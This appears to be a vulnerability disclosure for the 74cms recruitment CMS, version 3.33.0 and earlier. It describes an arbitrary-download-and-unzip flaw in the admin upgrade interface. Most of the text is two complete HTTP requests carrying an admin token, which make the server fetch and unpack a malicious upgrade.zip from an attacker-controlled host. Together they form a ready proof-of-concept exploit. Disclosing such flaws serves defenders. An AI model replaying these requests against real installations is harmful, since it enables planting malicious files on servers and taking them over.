 # env

```text
https://www.74cms.com/download/detail/175.html
```
# version
74cms <= 3.33.0
# detail
In the background interface apiadmin, no official address is specified, and you can enter any address to download, subsequent support to decompress, then we construct a malicious upload package on the server. The structure is as follows

![](.imgs/359e8aee.png)

Although the decompression failure will be reported during the decompression, it can be ignored

![](.imgs/500aaecd.png)

The packet is as follows

```text
GET /apiadmin/Upgrade/download?timestamp=1&path=http://10.211.55.2:8081/upgrade.zip HTTP/1.1
Host: 10.211.55.11:8092
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
admintoken: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjQ0ODMyMzQsImV4cCI6MTczMjI1OTIzNCwiaW5mbyI6eyJpZCI6MSwicm9sZV9pZCI6MX19.2jxjmAyNXp75aVUVFKUxaYK9pgBLp9rqAaM3hQ7B2pQ
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive

```


```text
GET /apiadmin/Upgrade/unzip?timestamp=1&path=http://10.211.55.2:8081/upgrade.zip HTTP/1.1
Host: 10.211.55.11:8092
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
admintoken: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjQ0ODMyMzQsImV4cCI6MTczMjI1OTIzNCwiaW5mbyI6eyJpZCI6MSwicm9sZV9pZCI6MX19.2jxjmAyNXp75aVUVFKUxaYK9pgBLp9rqAaM3hQ7B2pQ
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive
```